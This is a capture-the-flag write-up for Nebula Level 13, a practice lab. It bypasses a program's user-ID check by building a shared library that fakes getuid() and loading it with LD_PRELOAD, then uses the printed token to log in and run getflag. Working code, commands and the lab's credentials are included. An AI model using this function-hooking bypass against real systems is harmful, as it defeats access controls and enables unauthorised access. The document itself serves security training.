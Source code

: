 # Level 13

There is a security check that prevents the program from continuing execution if the user invoking it does not match a specific user id.

To do this level, log in as the **level13** account with the password **level13**. Files for this level can be found in /home/flag13

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <sys/types.h>
#include <string.h>

#define FAKEUID 1000

int main(int argc, char **argv, char **envp)
{
  int c;
  char token[256];

  if(getuid() != FAKEUID) {
      printf("Security failure detected. UID %d started us, we expect %d\n", getuid(), FAKEUID);
      printf("The system administrators will be notified of this violation\n");
      exit(EXIT_FAILURE);
  }

  // snip, sorry :)

  printf("your token is %s\n", token);
  
}
```

## Writeup

In this code we need to set our **UID** to **1000** to get the token.

To do that we can use **LD_PRELOAD** to dinamically load a new version of the **getuid()** function that return always **1000**.

Let's create a new program called **getuid.c** (stored in **/home/level13**) that override the function **getuid()**:

```c
#include <unistd.h>
#include <sys/types.h>

uid_t getuid(void){
    return 1000;
}
```

Now compile it with **gcc** and **-shared** option to create a runtime linkable object and **-fPIC** to generate **Position Independent Code** that is reallocable:

```bash
gcc -shared -fPIC -o getuid.so getuid.c
```

**N.B.** in the manual page of **ld.so** there is this text:

```
For setuid/setgid ELF binaries, only libraries in the standard search directories that are also setgid will be loaded.
```

If the binary is **SETUID** also the library must be **SETUID**.

We can copy the binary to remove the **SETUID** bit, is not usefull for this challenge:

```bash
cp /home/flag13/flag13 /home/level13/
```

Now we can use the exploit:

```bash
LD_PRELOAD=/home/level13/getuid.so /home/level13/flag13
```

The output is this:

```
your token is b705702b-76a8-42b0-8844-3adabbe5ac58
```

We can now use the token to login as flag13:

```bash
ssh flag13@nebula
```

We are now **flag13**:

```bash
flag13@nebula:~$ id
uid=986(flag13) gid=986(flag13) groups=986(flag13)
```

We can now able to run the **getflag** command:

```bash
flag13@nebula:~$ getflag
You have successfully executed getflag on a target account
```